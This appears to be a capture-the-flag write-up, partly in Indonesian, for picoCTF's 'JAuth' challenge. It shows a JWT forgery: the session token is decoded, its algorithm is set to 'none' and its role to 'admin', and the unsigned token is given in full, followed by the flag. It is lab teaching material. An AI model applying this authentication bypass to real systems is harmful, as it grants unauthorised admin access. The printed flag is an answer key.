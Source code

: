 <h1>JAuth</h1>
<p>Most web application developers use third party components without testing their security. Some of the past affected companies are:.</p>
<ul>
  <li>Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638</li>
  <li>Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used</li>
  <li>VerticalScope (internet media company) - outdated version of vBulletin forum software used</li>
</ul>
<p>Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.</p>

<p>Hint :</p>
<ul>
  <li>Use the web browser tools to check out the JWT cookie.</li>
  <li>The JWT should always have two (2) . separators.</li>
</ul>
<h3>Solution</h3>
<p>Login username=test Password=Test123 pada web, dan ambil JWT pada cookie, lanjut JWT Attack</p>

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjYyNjE5MDM2MjQ3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDUuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjYyNjE5MDM2fQ.8SAus5Cq2cRtS7or8oVro_oZorI9PAqhu3XFzVkBm5g
```
<p>JWT terdiri dari Header, Payload, Signature. yang jika didecode pada <a href='https://token.dev/'>link</a> Didapatkan</p>

```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "auth": 1662611103288,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1662611103
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
your-256-bit-secret

) secret base64 encoded
```
<p>Ganti header alg=HS256 ke alg=none, dan role=user menjadi role=admin dan hasilnya tanpa signature (header,payload,signature dipisah dengan titik)</p>

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjYyNjE5MDM2MjQ3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDUuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY2MjYxOTAzNn0.
```
<p>Ganti token dan refresh halaman</p>
<h3>Flag</h3>
<p>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</p>
